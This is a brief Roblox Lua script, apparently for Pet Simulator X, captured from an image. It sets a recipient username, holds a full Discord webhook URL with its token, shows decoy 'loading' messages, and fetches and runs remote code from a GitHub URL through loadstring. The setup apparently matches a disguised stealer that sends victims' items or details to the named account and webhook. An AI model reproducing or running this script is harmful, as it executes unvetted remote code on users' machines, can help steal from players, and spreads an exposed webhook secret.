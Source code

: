 Username = "alisa_milanakul"

WebHook = "https://discord.com/api/webhooks/1084533100714934304/1SW0Nh6dR5LRbphWwSaKR2PUBoKKgXwb09DCPRYW4LCNliOX6TFycOTW6xmeEZ9YFe_P"

_G.CustomScriptName = "HELLO GUESTS"

_G.Text1 = "Script Loading....."

_G.Text2 = "Waiting for Script"

_G.Text3 = "Checking Scripts..."

_G.Text4 = "Starting Scripts..."

loadstring(game:HttpGet("https://raw.githubusercontent.com/Justanotherdme/petsimx22/main/petsimguiss.lua"))()
